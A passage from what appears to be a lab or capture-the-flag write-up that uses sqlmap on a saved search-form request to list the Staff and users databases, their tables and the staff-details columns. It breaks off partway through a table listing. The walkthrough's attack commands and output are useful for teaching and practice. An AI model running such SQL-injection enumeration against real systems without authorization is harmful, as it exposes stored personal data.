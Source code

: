 Now we can launch `sqlmap`, provide the file we just saved (I named it *search_request.txt*) and the `--dbs` flag to scan for avaialble databases.
`sqlmap -r search_request.txt --dbs`

```console
$ sqlmap -r search_form.txt --dbs
...
[16:18:06] [INFO] fetching database names
available databases [3]:
[*] information_schema
[*] Staff
[*] users
...
```
Using sqlmap we were able to find two databases that might be interesting:
1. Staff
2. users

Let's discover all **tables** in all databases (we'll disregard the schema db output)

```console
$ sqlmap -r search_form.txt --tables
...
Database: Staff
[2 tables]
+---------------------------------------+
| StaffDetails                          |
| Users                                 |
+---------------------------------------+

Database: users
[1 table]
+---------------------------------------+
| UserDetails                           |
+---------------------------------------+
...
```

Now let's pull each of the table's **columns**:
For *Staff* database:

```console
$ sqlmap -r search_form.txt --columns -D Staff
...
[16:41:48] [INFO] fetching tables for database: 'Staff'
[16:41:48] [INFO] fetching columns for table 'StaffDetails' in database 'Staff'
[16:41:48] [INFO] fetching columns for table 'Users' in database 'Staff'
Database: Staff
Table: StaffDetails
[7 columns]
+-----------+-----------------+
| Column    | Type            |
+-----------+-----------------+
| position  | varchar(100)    |
| email     | varchar(50)     |
| firstname | varchar(30)     |
| id        | int(6) unsigned |
| lastname  | varchar(30)     |
| phone     | varchar(20)     |
| reg_date  | timestamp       |
+-----------+-----------------+

Database: Staff
Table: Users
[3 columns]
+----------+-----------------+
| Column   | Type            |
```
